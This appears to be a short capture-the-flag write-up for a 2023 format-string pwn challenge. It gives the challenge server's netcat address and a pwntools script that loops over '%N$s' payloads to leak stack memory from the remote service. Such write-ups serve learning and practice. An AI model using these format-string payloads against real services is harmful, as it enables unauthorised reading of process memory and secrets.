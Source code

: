 ```yaml
---
comments: true
authors:
  - gr007
tags:
  - pwn
  - coderush
  - '2023'
---
```


# format_string ftw

## Description

No one should see what I have in stack! Its only mine!

`nc 139.59.0.163 7777`

>Author: `peace_ranger`

## Solution

We are only given a connection information. we can connect to this via netcat. as this is a black box challenge where the clues are given in the challenge name and description, nothing else need to be said. The following exploit should work just fine:

```python
#!/usr/bin/env python

from pwn import *


for i in range(1,200):
    p = remote("139.59.0.163",7777)
    x = f'%{i}$s'
    p.recvline()
    p.sendline(bytes(x,"UTF-8"))
    print(p.recvline())

```

